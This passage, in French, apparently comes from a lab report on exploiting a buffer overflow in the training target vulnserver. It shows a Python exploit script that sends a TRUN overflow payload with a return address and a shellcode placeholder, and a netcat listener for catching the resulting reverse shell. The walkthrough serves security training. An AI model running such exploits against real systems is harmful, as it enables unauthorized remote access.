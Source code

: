 Injection finale du shellcode :

```python
#!/usr/bin/python
import sys, socket

shellcode = "A" * 2003 + "\xaf\x11\x50\x62" + "<Votre shellcode ici>"

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('192.168.1.27', 9999))
    payload = "TRUN /.:/" + shellcode
    s.send((payload.encode('latin1')))
    s.close()
except:
    print("Erreur lors de la connexion au serveur")
    sys.exit()

```

---

### Étape 6 : Connexion au Shell Reverse

Écoute avec Netcat :

```bash
nc -nlvp 4444
```

📸 **Résultat du Shell interactif**  
![Résultat connexion réussi](./resultatconnexion.png)

---

## 🎯 Conclusion Générale

Ce rapport a permis de détailler l'exploitation complète d'une faille Buffer Overflow sur `vulnserver` avec obtention d'un accès interactif.

---

## 🔐 Recommandations

